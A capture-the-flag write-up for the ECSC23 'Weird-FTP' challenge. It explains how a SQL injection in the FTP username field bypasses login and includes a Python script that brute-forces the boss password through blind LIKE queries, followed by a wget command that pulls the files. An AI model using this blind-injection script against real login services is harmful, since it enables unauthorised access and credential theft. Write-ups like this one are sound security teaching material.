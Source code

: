 # Weird-FTP

We get access to a weird bugged FTP server.

After logging in with provided credentials we see two files: AUDIT_PLAN.TXT and dbschema.sql
```sql
#
# TABLE STRUCTURE FOR: employees
#

DROP TABLE IF EXISTS `employees`;

CREATE TABLE `employees` (
  `id` int(9) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(100) NOT NULL,
  `password` varchar(255) NOT NULL,
  `home_dir` varchar(255) NOT NULL,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=utf8 COLLATE=utf8_general_ci;

# All passwords are 16 digits, letters are not used because they could not be entered in case we want to use pin-pads for login
# Passwords provided below are examples.
INSERT INTO `employees` (`id`, `username`, `password`, `home_dir`) VALUES (1, 'boss', '0000000000000000', '/home/boss');
INSERT INTO `employees` (`id`, `username`, `password`, `home_dir`) VALUES (2, 'auditor', '0000000000000000', '/home/auditor');

```
This highly suggests that FTP authentication is done by querying SQL users.
So, we try SQL injection!

After experimenting, we see that `password` is not vulnerable, only `username` is.

`ENGINE=InnoDB` in dbschema.sql tells us that we should use `#` as the comment character.

We can login as boss by passing `boss' #` as username, but that doesn't give us access to the files - we have to find the actual password. We can do this by brute forcing the query.

solve.py
```py
from ftplib import FTP, error_temp
import string
import time

alphabet = string.digits

def try_query(query):
    ftp = FTP()
    ftp.connect('ftp.ecsc23.hack.cert.pl', 5005)
    ftp.set_pasv(True)
    # ftp.set_debuglevel(1)
    ftp.login(query, '8555998981517280')

    r = []
    ftp.dir(r.append)
    print(r)
    if len(r) != 1 or 'BAD_AUTH' in r[0]:
        return False
    
    return True

def is_query_ok(query):
    while True:
        try: 
            try_query(query)
            return False
        except KeyboardInterrupt: exit()
        except error_temp as e:
            print(e)
        except:
            return True
        time.sleep(0.1)

# brute force password
passwd = ''
while True:
    for c in alphabet:
        print(passwd+c)
        res = is_query_ok(f"boss' AND password like '{passwd+c}%' #")
        
        if res:
            passwd += c
            print(passwd)
            break
        time.sleep(0.1)

    if len(passwd) == 16:
        print('found')
        break

print(passwd) # 7897812918028196
```

Using `ftp` command to retrieve the flag didn't work for me for some reason, so I had to use `wget`

```sh
wget -m ftp://boss:7897812918028196@ftp.ecsc23.hack.cert.pl:5005
```

`ecsc23{863b2b472ee544109a7b066256df0ea5}`